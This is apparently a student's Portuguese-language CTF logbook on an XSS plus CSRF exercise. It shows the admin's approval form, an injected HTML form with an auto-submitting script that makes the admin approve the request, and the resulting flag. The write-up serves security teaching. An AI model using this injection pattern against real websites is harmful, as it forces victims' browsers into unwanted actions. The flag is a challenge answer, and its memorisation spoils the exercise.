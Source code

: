# LOGBOOK6 - CTF - XSS + CSRF
<div align="justify">
<p>Neste CTF, ao entrar no site mencionado, deparamo nos com uma caixa de texto na qual podemos inserir qualquer tipo de conteúdo, e o administrador fornecerá a flag dependendo do input. </p>
</div>
![Alt text](uploads/logbook6P1.png)

<div align="justify">
<p>
Para analisar o que acontece no site, inserimos um texto e observamos que há uma página com um formulário onde o administrador decide se o input enviado é aceitável (fornecendo assim a flag) ou não.
Com isso em mente, pensamos que poderia ser possível inserir um formulário idêntico ao que o administrador tinha acesso, mas com um 'script' que 'forçasse' o administrador a aceitar o que era enviado.
Analisando o código-fonte da página, verificamos que o 'formulário' que precisa de ser enviado, fornecendo a flag, possui o seguinte código:</p>
</div>

```html
<form method="POST" action="/request/5213d32d17b986fb67786a37656e99132d1504bb/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
    </div>
</form>
```
Assim, para que o formulário seja 'submited' automaticamente, inserimos o seguinte 'script' no nosso input:
```html
<script>document.getElementById('fake_id').submit()</script>  
<!-- O fake_id é o id colocado no 'form' que foi colocado no input -->
```
Com isso, o 'input' que enviamos foi o seguinte:
```html
<form method="POST" id='fake_id' action="http://ctf-fsi.fe.up.pt:5005/request/ce4691e1672a5a013ef6e2ec2508ac338662e57b/approve" role="form">
    <div class="submit">     
        <input type="submit">
    </div> 
</form> 
<script>document.getElementById('fake_id').submit()</script>  
```
<div align="justify">
<p>Após o envio do nosso formulário, a página é recarregada, mostrando a flag, embora esta seja redirecionada para outra página quase instantaneamente. Portanto, para obtermos a flag, assim que enviamos a nossa resposta, pressionamos o botão 'parar' para evitar o redirecionamento automático, conseguindo então obter a flag: flag{0d190349a6f060ce425ee7ce5b35f00f}.</p>
</div>